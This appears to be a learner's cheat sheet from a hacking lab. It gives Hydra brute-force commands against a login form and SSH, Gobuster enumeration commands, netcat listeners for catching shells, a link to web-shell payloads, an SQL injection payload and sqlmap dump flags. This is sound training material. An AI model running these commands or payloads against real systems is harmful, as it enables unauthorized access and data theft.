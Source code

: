 


#### Hydra:


**HTTP POST Example:** 
```
sudo hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.220.149 http-post-form "/login:username=^USER^&password=^PASS^:F=Your username or password is incorrect" -V 
```

Bruteforce molly's password using rockyou.txt, we spesify the ip and that this is a post request. We also have to spesify the site we are on(in the url we see the /login, then spesify the parameters that we want to bruteforce). Also we have to spesify the error we get when trying wrong credentials. 

**ssh Example:**
```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.220.149 -t 4 ssh -V
```



#### Gobuster: 
It enumerates web directories, DNS subdomains, vhosts, Amazon S3 buckets, and Google Cloud Storage by brute force, using specific wordlists and handling the incoming responses


**Basic directory enumeration:**
```
root@ip-10-10-63-65:/usr/share/wordlists/dirbuster# gobuster dir -u "http://www.offensivetools.thm" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r 
```

Note: By default, the dir mode does not work recursively e.i. it does not go into subdirectories. 

Useful:
```
gobuster -h: Overview over differnt commands
gobuster dir -h: Overview over different flags for dir command
```


**Basic DNS subdomain enumeration:** 
```
root@ip-10-10-205-161:/usr/share/wordlists/SecLists/Discovery/DNS# gobuster dns -d offensivetools.thm -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt 
```


#### Vhost vs DNS subdomains: 

**vhost:** Virtual hosts are a server-side configuration mechanism used by web servers (like Apache or Nginx) to host multiple websites or applications on a single server or IP address

**Subdomains:** DNS subdomains are sub-level domains created within the Domain Name System hierarchy. They are part of the domain name and used to organize resources under a parent domain.
![[Pasted image 20241124200929.png]]

In gobuster: 
- `vhost` mode will navigate to the URL created by combining the configured HOSTNAME (-u flag) with an entry of a wordlist.
- `dns` mode will do a DNS lookup to the FQDN created by combining the configured domain name (-d flag) with an entry of a wordlist.


Basic vhost example:
```
root@ip-10-10-205-161:/usr/share/wordlists/SecLists/Discovery/DNS# gobuster vhost -u "http://10.10.106.172" --domain offensivetools.thm -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain --exclude-length 250-320
```

Since we sending actual webrequests (insted of doing dsn lookup) we have to spesify a few more flags then for the dns scan. 

Notice we need to spesify both the url and the domain! The --append-domain flag does also need to be set for it to work.  


Basic vHost enumeration:


#### Netcat alternatives:

- rlwarp with nc: `rlwarp nc -lvnp 443` Improves the shell, lets us use arrowkeys etc
- Ncat: `ncat -lvnp 4444` improved netcat with SSL 


#### Shell payloads:
With unrestricted file upload vulnerability, we can upload one of these to get a web shell:
https://www.r57shell.net/index.php



#### SQL injection - SQLmap:

Basic example:
```

Normal query: 
SELECT * FROM users WHERE username = 'John' AND password = 'Un@detectable444';

SQL injection:
Username: John
Password: abc' OR 1=1;-- -

SELECT * FROM users WHERE username = 'John' AND password = 'abc' OR 1=1;-- -';
```


automate the task with sqlmap:

```
Basic synatx with get parameters:

sqlmap -u "http://site?email=test&.." 

Then we can add flags such as 
--dbs: Databases 
--tables: Tables 
-D: Spesify a spesific database
-T: Spesify a spesifc table 
--dump: Dump the content of a table

```
